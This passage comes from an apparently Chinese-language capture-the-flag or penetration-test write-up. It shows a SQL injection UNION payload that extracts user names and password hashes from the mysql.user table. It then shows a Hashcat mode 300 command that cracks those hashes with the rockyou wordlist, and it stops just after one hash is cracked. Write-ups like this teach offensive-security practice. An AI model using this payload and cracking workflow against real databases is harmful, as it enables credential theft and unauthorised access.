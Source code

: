 然后，我现在从 DB mysql 的表 user 中检索列 user 和 passwords。

```
1' UNION SELECT 1,user,password,4,5,6 from mysql.user; -- -
```

![](img/d0c941d994e10a8e43c21a0eabab3474.png)

知道我有用户名和散列，我可以尝试使用 Hashcat 来破解它们。通过检查散列的长度，似乎它们是 40 个字符，所以很可能它们是 SHA-1 散列或某种形式的 MySQL 散列。

![](img/145712ad89329058a99821607e107b2d.png)

然后，我检查了 SHA1 的相应模式，并试图用 SHA1 破解，但它不会破解。然后我寻找 MySQL 的散列:

![](img/d3199be0319eff4dc30592bfa39bca76.png)

似乎模式 300 满足了我们的字符长度，试图破解它:

```
.\hashcat64.exe -m 300 control-hashes.txt rockyou.txt
```

它能够破解其中一个哈希:
